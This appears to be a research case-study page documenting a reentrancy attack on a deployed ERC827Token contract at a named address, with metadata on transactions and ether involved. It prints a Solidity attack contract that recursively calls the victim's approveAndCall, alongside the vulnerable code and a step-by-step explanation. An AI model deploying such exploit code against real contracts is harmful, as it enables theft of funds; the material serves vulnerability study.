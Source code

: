 #########
Attack 04
#########

**Contract Name**

ERC827Token

**Contract Address**

0x2f55045439c0361ac971686e06d5b698952f89c1

**Transaction Count**

5

**Invovled Ethers**

0.85 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``approveAndCall``

**Attack Mechanisim**

Attack code:
::

    contract Attack{
        ERC827Token e = new ERC827Token();
        bytes  bs4 = new bytes(4);
        bytes4 functionSignature = bytes4(keccak256("attack()"));
        constructor() payable {}

        function prepareWork() {
            for (uint i = 0; i< bs4.length; i++){
                bs4[i] = functionSignature[i];
            }
        }

        function attack() public {
            e.approveAndCall.value(0)(this, 1 eth, bs4);
        }

        function() payable{}

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract ERC827Token is ERC827, StandardToken {
        function approveAndCall(address _spender, uint256 _value, bytes _data) public payable returns (bool) {
            require(_spender != address(this));

            super.approve(_spender, _value);
        
            require(_spender.call.value(msg.value)(_data));

            return true;
        }
    ...
    }

In this case, the goal of our reentrancy is ``require(_spender.call.value(msg.value)(_data));``. To reach it, we need to make sure the address variable *_spender* does not equals to the address of ``ERC827Token``. And this can be done easily by setting an arbitrary hex string. Additionally, the ``_data`` parameter ensures we can recursively call our attack function.

**Preparation.** We set attack function's signature by calling ``prepareWork()`` function in attack code. 

**Attack.** The attacker call ``attack()`` function, it calls ``approveAndCall`` function with the parameters setted by attacker in victim contract. The ``require`` condition is satisfied because the first parameter is attacker's address. Next it goes to the key statement ``require(_spender.call.value(msg.value)(_data));`` which calls back to the ``attack()`` function in attacker's contract. Hence, a call loop is formed and we achieved a *Reentrancy* attack.